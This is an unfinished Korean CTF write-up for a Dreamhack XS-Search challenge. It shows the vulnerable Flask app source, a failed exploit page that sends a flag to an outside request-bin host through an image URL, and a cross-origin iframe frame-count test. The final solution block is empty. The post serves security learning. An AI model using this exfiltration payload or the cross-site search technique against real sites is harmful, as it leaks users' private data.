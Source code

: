 ```yaml
---
title : Dreamhack - XS Search (Incomplete)
date: 2022-04-26 22:40 +0900
categories: [Dreamhack, Webhacking]
tags: [XS Search, Cross Site Search, Incomplete]
---
```


## XS - Search
<hr style="border-top: 1px solid;"><br>

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
from selenium.common.exceptions import TimeoutException
from urllib.parse import urlparse
from selenium import webdriver
from hashlib import md5
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

notes = {
    (FLAG, True), 
    ("Hello World", False), 
    ("DreamHack", False), 
    ("carpe diem, quam minimum credula postero", False)
}

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get(url)
    except TimeoutException as e:
        driver.quit()
        return True
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

@app.route("/")
def index():
    return render_template('index.html')


@app.route('/search')
def search():
    query = request.args.get('query', None)
    if query == None:
        return render_template("search.html", query=None, result=None)
    for note, private in notes:
        if private == True and request.remote_addr != "127.0.0.1" and request.headers.get("HOST") != "127.0.0.1:8000":
            continue
        if query != "" and query in note:
            return render_template("search.html", query=query, result=note)
    return render_template("search.html", query=query, result=None)


@app.route("/submit", methods=["GET", "POST"])
def submit():
    if request.method == "GET":
        return render_template("submit.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        if not urlparse(url).scheme.startswith("http"):
            return '<script>alert("wrong url");history.go(-1);</script>'
        if not read_url(url):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


app.run(host="0.0.0.0", port=8000)
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width">
  <title>Exploit</title>
  <link href="style.css" rel="stylesheet" type="text/css" />
</head>

<body>
	<script>
		let img = document.createElement('img');
		let reqbin='https://gwqarqn.request.dreamhack.games';
		function req(url) {
    		let script = document.createElement('script');
    		script.src = url;
    		script.onload = () => {
				let getval = document.querySelector('iframe');
				let Flag = getval.getAttribute('srcdoc');
    			img.setAttribute('src', reqbin+"?flag="+Flag);
			}
			script.onerror = () => img.setAttribute('src', reqbin+'/onerror');
			
			document.head.appendChild(script);
			document.body.appendChild(img);
		}
		req('http://localhost:8000/search?query=D')
	</script>
</body>
	
</html>
```

위와 같이 코드를 짜서 보냈다...

하지만 돌아오는건 스크립트가 로드가 되지 않아 에러가 발생했다는 요청만 올 뿐이었다.

<br>

Link
: <a href="https://security.stackexchange.com/questions/182572/why-cant-bypass-sop-using-src-attribut-in-script-tag" target="_blank">security.stackexchange.com/questions/182572/why-cant-bypass-sop-using-src-attribut-in-script-tag</a>

<br>

스크립트로 로드할 땐, sop 정책때문이 아니라 해당 목표 사이트의 html 코드를 얻을 방법이 없기 때문이라고 한다.
: ```<``` 로 시작하면 script src로 읽을 수가 없다!

<br>

iframe 의 윈도우객체에 접근하기 (contentWindow)
: <a href="https://doolyit.tistory.com/37" target="_blank">doolyit.tistory.com/37</a>

<br>

강의를 보니 frame의 개수로 확인하여 공격을 진행해서 직접 테스트를 해보았고 확인할 수 있었다.

```target.html```에 iframe이 있으면 1, 없으면 0이 console에 출력된다. 

<br>

```html
<!-- target.html -->
<!DOCTYPE html>
<html>
	<head>
		<title>Target</title>
		<meta charset="utf-8">
		<body>
      <iframe srcdoc="<pre>test</pre>"></iframe>
		</body>
	</head>
</html>
```

<br>

```html
<!-- attacker.html -->
<!DOCTYPE html>
<html>
	<head>
		<title>Attacker</title>
		<meta charset="utf-8">
		<body>
			<iframe id="iframe"></iframe>
			<script>
				const iframe = document.getElementById("iframe");
				iframe.src = "https://{repl server}/target.html";
				iframe.onload = () => {
    				console.log(iframe.contentWindow.frames.length);
				};
			</script>
		</body>
	</head>
</html>
```

<br>

내가 궁금했던건 ```그러면 타켓 사이트에 있는 frame의 srcdoc 값을 가져오면 되지 않을까?``` 이였는데, 테스트를 해보니 ```Uncaught DOMException: Blocked a frame with origin <origin> from accessing a cross-origin frame.``` 라는 에러가 떴다.

물론 같은 origin에서는 가져올 수 있었다. 

예를 들면, ```https://test.com```에서 ```https://test.com/test.html```에 있는 ```<iframe srcdoc="<pre>test</pre>"></iframe>``` 코드를 가져오는 건 가능했다.

하지만 실제 공격을 위해서는 내 서버에서 ```http://localhost:8000/search?query=DH```로 공격을 하는 거기 때문에 막힐 것이다.. 

그래서 강의 내용처럼 frame의 개수로 판단하여 공격해야 하는 것 같다..

<br>

```html

```

<br>

<br><br>
<hr style="border: 2px solid;">
<br><br>

